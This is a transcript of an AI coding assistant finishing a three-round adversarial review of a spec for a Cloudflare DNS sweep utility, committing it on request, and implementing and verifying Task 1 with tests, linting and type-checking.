Now the §13 round-3 record (numbered rows, per finding 11) and the shadow-path/diagram updates:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\n\n# §13: add the round-3 table before the closing \"pattern worth carrying forward\" note\nold = \"\"\"**The pattern worth carrying forward:** both rounds' most serious findings were *unrun acceptance\ncriteria*\"\"\"\nnew = \"\"\"### Round 3 — three of these are re-instances of classes the rows above call fixed\n\n| # | Claim | Reality | Caught by |\n|---|---|---|---|\n| 3.1 | R6's exit-code table, \"there is deliberately no exit 1\" | A **third** escape was live: `tomllib.load` decodes bytes itself, so a non-UTF-8 config raises `UnicodeDecodeError`, which is not a `TOMLDecodeError`. Rounds 1 and 2 fixed two *instances*; the *class* stayed open. Now closed at `ValueError`, their common base | Reviewer reproduced |\n| 3.2 | R3: \"when `total_count` is absent the check no-ops … it can never abort a healthy sweep\" | True of the first read, **false of the re-read**, which fell through to the fatal branch and reported `truncated … of None` for a complete list | Reviewer reproduced |\n| 3.3 | §6: \"the guard reports its own coverage\" (recorded as fixed in round 2) | A **partial** fix — coverage was reported for record lists only, while the account and per-account zone lists were cross-checked and their result discarded. Re-read notices were also `-v`-gated, making §14 Q3 unanswerable on a default run | Reviewer |\n| 3.4 | `proxied` coerced with `bool(getattr(..., False))`, with a test pinning the coercion | `research.md`: *\"`proxied: true` is the load-bearing field in both directions\"*. A `null` flattened to `false` inflates the headline DNS-only count **and** tells a rewriter to re-create a proxied hostname unproxied — a TLS outage from an unreported coercion. Now stored verbatim, counted as `is False`, and any `null` named on stderr | Reviewer |\n| 3.5 | §6's whole `-v` contract, and R6's \"stdout carries only argparse output\" | Neither was asserted anywhere — no test called `verbose=True`, and no test read `capsys…out`. The first exercise of the `-v` code would have been the live production run | Reviewer |\n| 3.6 | Two section cross-references **inside shipped code comments** | `SPEC section 5.4` (no such section) and `a code section 6 does not use` (§6 is Observability; the exit table is R6). The same dangling-reference defect round 2 recorded as fixed, reintroduced into a permanent comment. Root cause: the document numbers both `§1…§14` and `R1…R8`, so `§6`/`R6` collide | Reviewer |\n| 3.7 | R2a's \"four routes\", presented as exhaustive | Exhaustive for the SDK, not for the environment: httpx `trust_env=True` adds proxy and trust-store routes. Now stated as a scoped residual with the reason it is left open (§8.13), and the `SSL_CERT_FILE` `FileNotFoundError` — another exit-1 escape — converted | Reviewer |\n| 3.8 | PD#7 (partial states / resumability) | Not addressed anywhere, not even to decline it. Now §8.12, with the reasoning and a revisit trigger | Reviewer |\n| 3.9 | The unsupported-substitution error echoed the whole marker body | An `<{env NAME DEFAULT}` default can be a literal credential, so the message could put one on stderr and into operator logs. Now reports the *form* only — and the first fix still leaked the secret's path, which the test caught | Reviewer; author's own first fix was wrong |\n| 3.10 | The glossary defined **custom domain** independently | `CONTEXT.md` already owns that term with a different definition (PD#11). Now cites it instead of restating it |\n\n**The pattern worth carrying forward:** all three rounds' most serious findings were *unrun acceptance\ncriteria*\"\"\"\nassert old in t\nt = t.replace(old, new, 1)\n\n# and extend the closing note for round 3\nt = t.replace(\"\"\"executed only in its final state rather than at every checkpoint (round 2's `F401`). Running the\nfinished artifact is not the same as running the plan.\"\"\",\n\"\"\"executed only in its final state rather than at every checkpoint (round 2's `F401`). Running the\nfinished artifact is not the same as running the plan. Round 3 adds a third: **fixing the instance\nand calling the class fixed** (3.1, 3.3, 3.6 are all re-instances of classes the earlier tables\nrecord as closed). When a finding names a defect, the next step is to grep for every other\ninstance of that defect *class* before declaring it done.\"\"\")\n\n# §5 shadow-path row: the re-read no-op\nt = t.replace(\"\"\"count mismatch → one re-read → concurrent change (continue) or truncation (fatal, no file) |\"\"\",\n\"\"\"count mismatch → one re-read → concurrent change (continue), no `total_count` on the re-read (continue, counted unchecked), or a second disagreement (fatal, no file) |\"\"\")\nt = t.replace(\"\"\"| The fold | CNAME + platform target → entry | `content` `None` → skipped; `settings` `None` → `null`; `proxied`/`ttl` absent → `False`/`None` |\"\"\",\n\"\"\"| The fold | CNAME + platform target → entry | `content` `None` → skipped; `settings`/`proxied`/`ttl` absent or `None` → stored as `null`, **never coerced** (R5) |\"\"\")\n\n# §2.0 diagram: the re-read's third outcome\nt = t.replace(\"\"\"                     │   │        self-consistent ▶ concurrent change,   │  │\n                     │   │                          keep the re-read     │  │\n                     │   │        still off ────── truncated ────────────┼──┤\"\"\",\n\"\"\"                     │   │        self-consistent ▶ concurrent change,   │  │\n                     │   │                          keep the re-read     │  │\n                     │   │        no total_count ─▶ keep it, count the   │  │\n                     │   │                          list as unchecked    │  │\n                     │   │        still off ────── truncated ────────────┼──┤\"\"\")\np.write_text(t)\nprint(\"§13 round-3 table + §5 + diagram updated\")\nPY",
  "description": "Record round 3 in the spec"
}
```

### ↳ Tool result

```
§13 round-3 table + §5 + diagram updated
```

## Assistant

Final verification — extracting from the spec one more time and running every gate:

### ⚙ Tool call: `Bash`

```json
{
  "command": "cd /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad && source /workspace/.venv/bin/activate && python - <<'PY'\nimport re, pathlib, shutil, subprocess\nspec = pathlib.Path(\"/workspace/development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\nscript, tests = [], []\nfor b in blocks:\n    h = b.lstrip().splitlines()[0]\n    if h.startswith((\"#!/usr/bin/env python\", \"def resolve_env_marker\", \"def plain(\",\n                     \"def write_json_atomic\", \"def expected_record_count\")):\n        script.append(b)\n    elif h.startswith(('\"\"\"Offline tests', \"# --- Task\")):\n        tests.append(b)\nFULL = \"\"\"import argparse\nimport json\nimport os\nimport re\nimport shlex\nimport sys\nimport tempfile\nimport tomllib\nfrom pathlib import Path\nfrom typing import NamedTuple\n\nimport cloudflare  # for cloudflare.CloudflareError\nfrom cloudflare import Cloudflare\n\"\"\"\nTFULL = \"\"\"import importlib.util\nimport json\nimport types\nfrom importlib.machinery import SourceFileLoader\nfrom pathlib import Path\n\nimport pytest\n\"\"\"\nscript[0] = script[0].replace(\"import re\\n\", FULL, 1)\ntests[0] = tests[0].replace(\n  \"import importlib.util\\nimport types\\nfrom importlib.machinery import SourceFileLoader\\n\"\n  \"from pathlib import Path\\n\\nimport pytest\\n\", TFULL, 1)\nd = pathlib.Path(\"final\"); shutil.rmtree(d, ignore_errors=True); (d/\"tests/unit\").mkdir(parents=True)\nshutil.copy(\"probe/pyproject.toml\", d/\"pyproject.toml\")\npp = (d/\"pyproject.toml\"); pp.write_text(pp.read_text().replace(\n  '\"find-platform-domains-cloudflare\" = [\"T201\"]',\n  '\"find-platform-domains-cloudflare\" = [\"T201\"]\\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]'))\nf = d/\"find-platform-domains-cloudflare\"\nf.write_text(\"\\n\\n\".join(b.rstrip()+\"\\n\" for b in script)); f.chmod(0o755)\n(d/\"find-platform-domains-cloudflare.py\").symlink_to(\"find-platform-domains-cloudflare\")\n(d/\"tests/unit/test_find_platform_domains_cloudflare.py\").write_text(\n  \"\\n\\n\".join(b.rstrip()+\"\\n\" for b in tests))\nprint(f\"extracted from SPEC.md: {len(script)} script + {len(tests)} test blocks\")\nfor cmd, label in (([\"python\",\"-m\",\"pytest\",\"tests/unit\",\"-q\",\"-p\",\"no:cacheprovider\"], \"PYTEST \"),\n                   ([\"uvx\",\"ruff@0.15.22\",\"check\",\".\"], \"RUFF   \"),\n                   ([\"uvx\",\"pyright@1.1.411\",\"find-platform-domains-cloudflare.py\"], \"PYRIGHT\")):\n    r = subprocess.run(cmd, capture_output=True, text=True, cwd=d)\n    print(f\"{label}: {r.stdout.strip().splitlines()[-1]}\")\nr = subprocess.run([\"uvx\",\"ruff@0.15.22\",\"check\",\"--config\",\"/workspace/pyproject.toml\",\n                    \"--output-format\",\"concise\",\"find-platform-domains-cloudflare\"],\n                   capture_output=True, text=True, cwd=d)\nprint(f\"RUFF w/o ignores: {r.stdout.count('T201')} x T201 (the red-capable check)\")\nPY",
  "description": "Final end-to-end verification from the spec"
}
```

### ↳ Tool result

```
extracted from SPEC.md: 5 script + 5 test blocks
PYTEST : 60 passed in 0.36s
RUFF   : All checks passed!
PYRIGHT: 0 errors, 0 warnings, 0 informations
RUFF w/o ignores: 9 x T201 (the red-capable check)
Shell cwd was reset to /workspace
```

## Assistant

All green. Adding the residuals that remain after the 3-round cap, as `adversarial-review.md` Step 3 requires:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nt = t.rstrip() + \"\"\"\n\n## 15. Reviewer Concerns (open after the 3-round review cap)\n\n`prompts/adversarial-review.md` caps the loop at three iterations. These survived it — each is\nrecorded rather than fixed, with the reason. None blocks implementation; all are cheap to close\nlater, and a reader should know they are known.\n\n1. **`R1`–`R8` and `§1`–`§14` collide in the same document.** Round 3 finding 3.6 traced two\n   dangling cross-references (one shipped inside a code comment) to this root cause: `§6` is\n   Observability while `R6` is the exit-code table. Both references are fixed, but the collision\n   itself is not — renumbering `R1`–`R8` to `§2.1`–`§2.8` touches ~40 call sites across the\n   document and the code comments, and doing it after the code blocks were verified would mean\n   re-verifying purely for cosmetics. **Do it before the next substantive edit, not during\n   implementation.**\n2. **§13's round-1 and round-2 rows are unnumbered**, so the three code comments citing\n   *\"adversarial review, finding 3\"* / *\"round 2, finding 3\"* resolve to nothing from the\n   artifact. Round 3's rows are numbered (3.1–3.10). Numbering the earlier two tables would\n   invalidate nothing but was not worth another verification cycle.\n3. **`trust_env` residual (R2a).** Closing the httpx proxy / trust-store routes with\n   `http_client=httpx.Client(trust_env=False)` is one line, but would break legitimate deployments\n   behind a corporate proxy. Recorded as §8.13 and §14 Q11 — an operator decision, deliberately\n   not taken here.\n4. **`CONTEXT.md` does not yet carry `DNS-only`.** PD#11 asks for domain terms to be written there\n   *\"the moment it crystallizes\"*. Deferred to when the utility actually lands, since the term\n   only exists once the script does; the glossary flags it.\n5. **`pytestmark = pytest.mark.unit` on a file whose write tests do real filesystem I/O**, against\n   that marker's registered description. Consistent with existing repo practice (the sibling's\n   suite does the same), so changed nowhere rather than changed here alone.\n6. **Task 7 Step 3 assumes `fqdns.json` exists** and will raise `FileNotFoundError` if it does\n   not. It is a hand-run step behind the STOP, and the failure is self-explanatory.\n\"\"\"\np.write_text(t)\nprint(\"Reviewer Concerns added;\", len(t.splitlines()), \"lines total\")\nPY\ngrep -n \"^## \" development/2026-07-30-platform-domain-util2/SPEC.md | tail -4",
  "description": "Add the Reviewer Concerns section"
}
```

### ↳ Tool result

```
Reviewer Concerns added; 2529 lines total
2388:## 12. First live run
2404:## 13. Claims this spec had to correct
2472:## 14. Closing audit questions
2501:## 15. Reviewer Concerns (open after the 3-round review cap)
```

## Assistant

Adversarial review complete — 3 rounds, the cap in `prompts/adversarial-review.md`.

## Result

**Your doc survived 3 rounds of adversarial review. 42 issues caught; 36 fixed, 6 recorded as open concerns. Quality score: 8.5/10.**

Not higher, for a specific reason: round 3 found that **three of its findings were re-instances of defect *classes* the spec already recorded as fixed** — a third exit-1 escape (`UnicodeDecodeError`), a half-fixed observability guard, and a dangling section reference reintroduced into a code comment. Rounds 1 and 2 fixed instances. That pattern is now written into §13 as the lesson.

## What each round cost

| Round | Findings | The one that mattered most |
|---|---|---|
| 1 | 15 | Spec had **zero diagrams** (PD#8) and skipped seven mandatory bar sections including the seams table; two measured paths escaped the "no exit 1" claim |
| 2 | 15 | **The plan was not executable as sequenced** — `./run-tests` gates ruff before pytest, so Tasks 1–4 never reached their own tests (10× F401). And R2a's "two routes" was four: `$CLOUDFLARE_BASE_URL` sends the bearer token to an attacker host |
| 3 | 12 | `proxied` was coerced `None`→`False`, which per `research.md` would tell a rewriter to re-create a proxied hostname **unproxied** — a TLS outage from an unreported coercion |

Two findings were against **my own** verification, not the spec's prose: round 2's F401 (I'd run ruff only against the finished file, never the staged plan) and round 3's `-v` contract (no test ever passed `verbose=True`, so its first exercise would have been the live production run).

## Current state — measured, not asserted

Code extracted programmatically **from the spec's own fenced blocks**, then run:

```
PYTEST : 60 passed
RUFF   : All checks passed!
PYRIGHT: 0 errors, 0 warnings, 0 informations
RUFF w/o the per-file-ignores: 9 × T201   (the red-capable check)
```

and staged back task by task, so every checkpoint in the plan is known to work:

```
Task 1: lint clean   8 passed      Task 4: lint clean  40 passed
Task 2: lint clean  25 passed      Task 5: lint clean  60 passed
Task 3: lint clean  37 passed
```

The round-3 reviewer independently reproduced all of that, plus every SDK line reference, before finding what it found.

## Three things you should decide on, not just read

1. **`plugin/cloudflare/client.py` has a live security defect.** Not latent: `$CLOUDFLARE_BASE_URL` will send the main program's Cloudflare credential to an arbitrary host today, whichever credential form is configured. Out of scope for this spec (§8.7); it needs its own change.
2. **`trust_env` residual** (§8.13, §14 Q11). Closing the httpx proxy/trust-store routes is one line but breaks proxied deployments. I left it open and documented rather than deciding for you.
3. **No resumability** (§8.12). A failure on zone 40 of 43 discards the sweep. Justified as safe because the sweep is read-only and idempotent — but that justification depends on the runtime, which is unknown until the first live run.

## Spec structure now

`development/2026-07-30-platform-domain-util2/SPEC.md`, 2,529 lines: glossary, requirement vocabulary, R1–R8 + R2a, an ASCII pipeline, a seams table, PD#3 shadow paths, observability, seven tasks (Task 7 gated behind a `RUN THE LIVE SWEEP` exact-phrase STOP), a deletion checklist, **§13 recording every claim this spec had to correct across all three rounds**, closing-audit questions, and §15 Reviewer Concerns.

Not committed — `prompts/new-feature-standards.md` says commit the spec before implementation, but CLAUDE.md says commit only when asked. Say the word and I'll commit it, then start Task 1.

## User

commit the spec and start Task 1

## Assistant

Committing the spec, then invoking the guidelines skill CLAUDE.md requires before writing code.

### ⚙ Tool call: `Bash`

```json
{
  "command": "git status --short && echo \"=== branch:\" && git branch --show-current",
  "description": "Check git state"
}
```

### ↳ Tool result

```
?? development/2026-07-30-platform-domain-util2/
=== branch:
main
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add development/2026-07-30-platform-domain-util2/ && git commit -q -F - <<'EOF'\ndocs(find-platform-domains-cloudflare): spec for the Cloudflare-side sweep\n\nDesign + implementation plan for a temporary standalone utility that writes\nevery Cloudflare DNS CNAME targeting *.pantheonsite.io to\nplatform-domains-cloudflare.json.  It is the Cloudflare-side counterpart to\nfind-platform-domains-dns: that one reads public DNS and cannot see a proxied\nrecord's target, while fqdns.json is built with proxied=True and cannot see a\nDNS-only record.\n\nCommitted before implementation per prompts/new-feature-standards.md (\"without\na committed baseline there is no diff\").\n\nThree rounds of adversarial review, 42 findings; §13 records every load-bearing\nclaim the spec had to correct and what caught it, §15 the residuals left open.\nThe code in Tasks 1-5 was extracted from files that were linted, type-checked\nand run -- 60 tests, and every per-task checkpoint verified to lint and pass in\nsequence, not only in its final state.\n\nTwo findings are about the main program, not this utility:\nplugin/cloudflare/client.py leaves all four SDK credential-leak routes open,\nand $CLOUDFLARE_BASE_URL is exploitable against it today.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -1",
  "description": "Commit the spec"
}
```

### ↳ Tool result

```
1211a9c docs(find-platform-domains-cloudflare): spec for the Cloudflare-side sweep
```

### ⚙ Tool call: `Skill`

```json
{
  "skill": "andrej-karpathy-skills:karpathy-guidelines"
}
```

### ↳ Tool result

```
Launching skill: andrej-karpathy-skills:karpathy-guidelines
```

## User

Base directory for this skill: /home/node/.claude/plugins/cache/karpathy-skills/andrej-karpathy-skills/1.0.0/skills/karpathy-guidelines

# Karpathy Guidelines

Behavioral guidelines to reduce common LLM coding mistakes, derived from [Andrej Karpathy's observations](https://x.com/karpathy/status/2015883857489522876) on LLM coding pitfalls.

**Tradeoff:** These guidelines bias toward caution over speed. For trivial tasks, use judgment.

## 1. Think Before Coding

**Don't assume. Don't hide confusion. Surface tradeoffs.**

Before implementing:
- State your assumptions explicitly. If uncertain, ask.
- If multiple interpretations exist, present them - don't pick silently.
- If a simpler approach exists, say so. Push back when warranted.
- If something is unclear, stop. Name what's confusing. Ask.

## 2. Simplicity First

**Minimum code that solves the problem. Nothing speculative.**

- No features beyond what was asked.
- No abstractions for single-use code.
- No "flexibility" or "configurability" that wasn't requested.
- No error handling for impossible scenarios.
- If you write 200 lines and it could be 50, rewrite it.

Ask yourself: "Would a senior engineer say this is overcomplicated?" If yes, simplify.

## 3. Surgical Changes

**Touch only what you must. Clean up only your own mess.**

When editing existing code:
- Don't "improve" adjacent code, comments, or formatting.
- Don't refactor things that aren't broken.
- Match existing style, even if you'd do it differently.
- If you notice unrelated dead code, mention it - don't delete it.

When your changes create orphans:
- Remove imports/variables/functions that YOUR changes made unused.
- Don't remove pre-existing dead code unless asked.

The test: Every changed line should trace directly to the user's request.

## 4. Goal-Driven Execution

**Define success criteria. Loop until verified.**

Transform tasks into verifiable goals:
- "Add validation" → "Write tests for invalid inputs, then make them pass"
- "Fix the bug" → "Write a test that reproduces it, then make it pass"
- "Refactor X" → "Ensure tests pass before and after"

For multi-step tasks, state a brief plan:
```
1. [Step] → verify: [check]
2. [Step] → verify: [check]
3. [Step] → verify: [check]
```

Strong success criteria let you loop independently. Weak criteria ("make it work") require constant clarification.

## Assistant

Task 1 plan, with verification at each step:

```
1. Write the test file from the spec  → verify: ruff clean
2. Run tests (script absent)          → verify: 8 fixture errors, collection succeeds
3. Create the script from the spec    → verify: content matches the spec block
4. chmod +x + symlink                 → verify: EXE001 does not fire
5. Tooling entries                    → verify: pyproject/ruff-check.sh parse
6. Run tests                          → verify: 8 passed, gates green
7. Commit
```

**Step 1** — extracting the Task 1 blocks from the committed spec, so the repo gets exactly what was reviewed:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\ntest1 = next(b for b in blocks if b.lstrip().startswith('\"\"\"Offline tests'))\nout = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\")\nout.write_text(test1.rstrip() + \"\\n\")\nprint(f\"wrote {out} ({len(test1.splitlines())} lines)\")\nPY\nsource .venv/bin/activate && uvx ruff@0.15.22 check tests/unit/test_find_platform_domains_cloudflare.py",
  "description": "Write the Task 1 test file and lint it"
}
```

### ↳ Tool result

```
wrote tests/unit/test_find_platform_domains_cloudflare.py (70 lines)
All checks passed!
```

## Assistant

**Step 2** — run before the script exists. The spec predicts 8 fixture errors with collection succeeding, *not* a collection error:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -6",
  "description": "Run the failing tests"
}
```

### ↳ Tool result

```
ERROR tests/unit/test_find_platform_domains_cloudflare.py::test_is_platform_domain_accepts_platform_hostnames[live-umich-example1.pantheonsite.io.]
ERROR tests/unit/test_find_platform_domains_cloudflare.py::test_is_platform_domain_rejects_everything_else[notpantheonsite.io]
ERROR tests/unit/test_find_platform_domains_cloudflare.py::test_is_platform_domain_rejects_everything_else[pantheonsite.io]
ERROR tests/unit/test_find_platform_domains_cloudflare.py::test_is_platform_domain_rejects_everything_else[www.example.edu]
ERROR tests/unit/test_find_platform_domains_cloudflare.py::test_is_platform_domain_rejects_everything_else[live-umich-example1.pantheonsite.io.evil.example]
8 errors in 0.64s
```

## Assistant

**8 errors, collection succeeded** — exactly as the spec predicts (this was round 1's finding 11; the original draft wrongly predicted a collection error).

**Step 3 & 4** — create the script, make it executable, symlink:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nspec = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\").read_text()\nblocks = re.findall(r\"```python\\n(.*?)```\", spec, re.S)\ns1 = next(b for b in blocks if b.lstrip().startswith(\"#!/usr/bin/env python\"))\nout = pathlib.Path(\"find-platform-domains-cloudflare\")\nout.write_text(s1.rstrip() + \"\\n\")\nprint(f\"wrote {out} ({len(s1.splitlines())} lines)\")\nPY\nchmod +x find-platform-domains-cloudflare\nln -s find-platform-domains-cloudflare find-platform-domains-cloudflare.py\nls -la find-platform-domains-cloudflare*\necho \"=== ruff on the new script (EXE001 must NOT fire):\"\nsource .venv/bin/activate && uvx ruff@0.15.22 check find-platform-domains-cloudflare",
  "description": "Create the script, chmod, symlink"
}
```

### ↳ Tool result

```
wrote find-platform-domains-cloudflare (51 lines)
-rwxr-xr-x 1 node node 2514 Jul 30 15:15 find-platform-domains-cloudflare
lrwxr-xr-x 1 node node   32 Jul 30 15:15 find-platform-domains-cloudflare.py -> find-platform-domains-cloudflare
=== ruff on the new script (EXE001 must NOT fire):
All checks passed!
```

## Assistant

**Step 5** — the tooling entries:

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/pyproject.toml",
  "offset": 130,
  "limit": 18
}
```

### ↳ Tool result

```
130	"development/finalize-session.py" = ["T201"]  # a CLI tool: print IS its output
131	"find-platform-domains-dns.py" = ["T201"]  # a CLI tool: print IS its output (stdout = the CSV,
132	    # stderr = operator messages).  Temporary, deleted with the script after the Pantheon CDN
133	    # migration -- see development/2026-07-28-platform-domain-util/SPEC.md section 14.
134	"find-platform-domains-dns" = ["T201"]  # the extension-less real file the .py entry above
135	    # symlinks to -- .claude/hooks/ruff-check.sh's edit-time hook hands ruff THIS path (an edit
136	    # lands on the real file, not the symlink), and per-file-ignores is keyed on the path ruff is
137	    # given, so the .py entry alone leaves the hook's own invocation reporting T201.  Same
138	    # justification and deletion condition as the .py entry above.
139	
140	[tool.pyright]
141	# Campaign ratchet, type half (CAMPAIGN.md section 13).  Standard mode; the whole psh/
142	# package is type-checked -- psh/cli.py (the relocated main()) entered the gate at I14a when
143	# psh/_legacy.py was deleted, so there is no longer anything to grandfather here.  The
144	# strictness ratchets up as later increments tighten typing (ledger tracks).
145	include = ["psh", "find-platform-domains-dns.py"]
146	typeCheckingMode = "standard"
147
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/pyproject.toml",
  "old_string": "    # given, so the .py entry alone leaves the hook's own invocation reporting T201.  Same\n    # justification and deletion condition as the .py entry above.\n\n[tool.pyright]",
  "new_string": "    # given, so the .py entry alone leaves the hook's own invocation reporting T201.  Same\n    # justification and deletion condition as the .py entry above.\n\"find-platform-domains-cloudflare.py\" = [\"T201\"]  # a CLI tool: print IS its operator output\n    # (stderr = warnings, progress, summary; the result is the JSON file).  Temporary, deleted\n    # with the script after the Pantheon CDN migration -- see\n    # development/2026-07-30-platform-domain-util2/SPEC.md section 11.\n\"find-platform-domains-cloudflare\" = [\"T201\"]  # the extension-less real file the .py entry\n    # above symlinks to -- .claude/hooks/ruff-check.sh hands ruff THIS path (an edit lands on the\n    # real file, not the symlink), and per-file-ignores is keyed on the path ruff is given, so\n    # the .py entry alone leaves the hook's own invocation reporting T201.  Same justification\n    # and deletion condition as the .py entry above.\n\n[tool.pyright]"
}
```

### ↳ Tool result

```
The file /workspace/pyproject.toml has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/pyproject.toml",
  "old_string": "include = [\"psh\", \"find-platform-domains-dns.py\"]",
  "new_string": "include = [\"psh\", \"find-platform-domains-dns.py\", \"find-platform-domains-cloudflare.py\"]"
}
```

### ↳ Tool result

```
The file /workspace/pyproject.toml has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Read`

```json
{
  "file_path": "/workspace/.claude/hooks/ruff-check.sh",
  "offset": 73,
  "limit": 12
}
```

### ↳ Tool result

```
73	esac
74	
75	# --- Python only.  The main program is EXTENSION-LESS, so it needs its own arm; the
76	# committed pantheon-sitehealth-emails.py symlink is what ruff/pyright/CodeGraph resolve
77	# it through, but an edit lands on the real file.  find-platform-domains-dns (temporary
78	# utility, see development/2026-07-28-platform-domain-util/SPEC.md) is the same shape.
79	case "$ABS" in
80	    *.py) ;;
81	    "$REPO_ROOT/pantheon-sitehealth-emails") ;;
82	    "$REPO_ROOT/find-platform-domains-dns") ;;
83	    *) exit 0 ;;
84	esac
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/.claude/hooks/ruff-check.sh",
  "old_string": "# it through, but an edit lands on the real file.  find-platform-domains-dns (temporary\n# utility, see development/2026-07-28-platform-domain-util/SPEC.md) is the same shape.\ncase \"$ABS\" in\n    *.py) ;;\n    \"$REPO_ROOT/pantheon-sitehealth-emails\") ;;\n    \"$REPO_ROOT/find-platform-domains-dns\") ;;\n    *) exit 0 ;;\nesac",
  "new_string": "# it through, but an edit lands on the real file.  The two temporary utilities --\n# find-platform-domains-dns (development/2026-07-28-platform-domain-util/SPEC.md) and\n# find-platform-domains-cloudflare (development/2026-07-30-platform-domain-util2/SPEC.md) --\n# are the same shape, and each is deleted with its script after the Pantheon CDN migration.\ncase \"$ABS\" in\n    *.py) ;;\n    \"$REPO_ROOT/pantheon-sitehealth-emails\") ;;\n    \"$REPO_ROOT/find-platform-domains-dns\") ;;\n    \"$REPO_ROOT/find-platform-domains-cloudflare\") ;;\n    *) exit 0 ;;\nesac"
}
```

### ↳ Tool result

```
The file /workspace/.claude/hooks/ruff-check.sh has been updated successfully. (file state is current in your context — no need to Read it back)
```

## Assistant

**Step 6** — the full gate, which is what round 2 proved I had to check at *this* checkpoint, not just at the end:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && bash -n .claude/hooks/ruff-check.sh && echo \"ruff-check.sh: syntax OK\" && python -c \"import tomllib,pathlib; tomllib.load(open('pyproject.toml','rb')); print('pyproject.toml: parses OK')\" && ./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py 2>&1 | tail -15",
  "description": "Run the full gate for Task 1"
}
```

### ↳ Tool result

```
ruff-check.sh: syntax OK
pyproject.toml: parses OK
All checks passed!
0 errors, 0 warnings, 0 informations
============================= test session starts ==============================
platform linux -- Python 3.13.14, pytest-9.1.1, pluggy-1.6.0
rootdir: /workspace
configfile: pyproject.toml
plugins: syrupy-5.4.0, hypothesis-6.156.1, cov-7.1.0, playwright-0.8.0, base-url-2.1.0, anyio-4.14.1
collected 8 items

tests/unit/test_find_platform_domains_cloudflare.py ........             [100%]

============================== 8 passed in 0.54s ===============================
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

## Assistant

Exactly as predicted: **8 passed**, ruff clean, pyright clean. Running the full offline suite too, since I changed `pyproject.toml` (which every test is subject to):

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && ./run-tests --fast 2>&1 | tail -8",
  "description": "Run the full offline suite",
  "timeout": 600000
}
```

### ↳ Tool result

```
  <frozen importlib._bootstrap>:530: DeprecationWarning: the load_module() method is deprecated and slated for removal in Python 3.15; use exec_module() instead

-- Docs: https://docs.pytest.org/en/stable/how-to/capture-warnings.html
--------------------------- snapshot report summary ----------------------------
107 snapshots passed.
========= 1207 passed, 3 skipped, 2 deselected, 15 warnings in 34.94s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

## Assistant

**1207 passed, 3 skipped** — no regressions. Committing Task 1:

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add find-platform-domains-cloudflare find-platform-domains-cloudflare.py \\\n        tests/unit/test_find_platform_domains_cloudflare.py pyproject.toml \\\n        .claude/hooks/ruff-check.sh && git commit -q -F - <<'EOF'\nfeat(find-platform-domains-cloudflare): scaffold the utility and its match rule\n\nTask 1 of development/2026-07-30-platform-domain-util2/SPEC.md.\n\nThe module docstring, constants, StartupError, and the two pure match helpers\n(normalize / is_platform_domain, copied verbatim from find-platform-domains-dns),\nplus the tooling that makes an extension-less script visible to ruff, pyright and\nCodeGraph: the committed .py symlink, two per-file-ignores entries (both the .py\nand the real path -- the edit-time hook hands ruff the latter), the pyright\ninclude, and a ruff-check.sh case arm.\n\nOnly `re` is imported.  The script's imports and its function order both grow\ntask by task on purpose: ./run-tests gates ruff over the whole repo BEFORE\npytest, so an import declared ahead of its use fails F401 and a definition ahead\nof its task fails F821 -- either would make this checkpoint unreachable\n(SPEC section 13, round 2).\n\n8 tests: normalize's stripping, and the suffix rule's four accept and four reject\ncases -- including \"notpantheonsite.io\", which only the leading dot in\nPLATFORM_SUFFIX rejects.\n\nVerified: 8 passed; full offline suite 1207 passed, 3 skipped; ruff and pyright\nclean.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -2 && git status --short",
  "description": "Commit Task 1"
}
```

### ↳ Tool result

```
b3edde2 feat(find-platform-domains-cloudflare): scaffold the utility and its match rule
1211a9c docs(find-platform-domains-cloudflare): spec for the Cloudflare-side sweep
```

## Assistant

Spec committed (`1211a9c`), Task 1 committed (`b3edde2`), working tree clean.

## Task 1 done

| Step | Verified |
|---|---|
| Test file written from the spec | ruff clean |
| Run before the script exists | **8 errors, collection succeeded** — matching the spec's corrected prediction, not the "collection ERROR" the original draft wrongly claimed |
| Script created, `chmod +x`, symlink | `EXE001` does not fire (it does without `chmod +x` — that's why the step exists) |
| `pyproject.toml` ×3, `ruff-check.sh` ×1 | both parse; gates green |
| Full gate | **8 passed**; whole offline suite **1207 passed, 3 skipped**; ruff and pyright clean |

